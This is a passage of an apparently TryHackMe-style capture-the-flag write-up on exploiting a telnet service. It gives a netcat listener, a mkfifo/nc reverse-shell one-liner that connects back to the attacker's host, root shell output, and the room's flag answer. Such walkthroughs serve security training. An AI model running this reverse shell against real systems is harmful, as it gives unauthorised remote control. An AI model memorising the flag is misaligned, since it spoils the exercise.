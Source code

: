 ## #7.9

**Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using: `nc -lvp [listening port]`**

**What would the command look like for the listening port we selected in our payload?**

Answer: `nc -lvp 4444`

## #7.10 - Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

Now, let's start our listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

And let's start our reverse shell on the remote host:

~~~
.RUN mkfifo /tmp/wqivu; nc 10.9.0.54 4444 0</tmp/wqivu | /bin/sh >/tmp/wqivu 2>&1; rm /tmp/wqivu 
~~~

## #7.11 - Success! What is the contents of flag.txt?

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.204.52.
Ncat: Connection from 10.10.204.52:39938.
pwd
/root
ls -l
total 4
-rw-r--r-- 1 root root 29 Apr 20 14:36 flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
~~~

Root flag: `THM{y0u_g0t_th3_t3ln3t_fl4g}`